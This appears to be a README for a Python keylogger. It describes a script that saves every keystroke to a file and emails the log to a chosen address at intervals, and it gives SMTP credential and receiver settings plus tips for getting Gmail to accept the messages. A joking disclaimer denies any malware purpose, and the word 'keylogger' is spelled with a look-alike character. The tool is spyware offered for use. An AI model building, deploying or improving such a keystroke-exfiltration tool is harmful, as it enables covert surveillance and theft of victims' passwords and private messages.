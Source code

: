 # An attempt to create a kεylogger using Python.

This project is for practicing email automation, and stuff. Not for creating <br>
mal. software. Definitely not. This script saves keys typed into <br>
keyboard on a file in script directory, and sends them to an email every
x seconds.

Sender Email:
```commandline
    smtp_username = 'urmail@gmail.com'
    smtp_password = 'urpass123123213' # or app password
```
Receiver Email:
```commandline
    send_email('reveiver@gmail.com')
```
Note: 
- smtp might not accept your email for some reason. To fix, <br>
enable 2FA in your (sender) email and generate an app password, <br>
enter it in password.
- Change elapsed time in line 28 to however seconds the email should be sent. <br> Those are seconds of *typing time* an not actual seconds. 
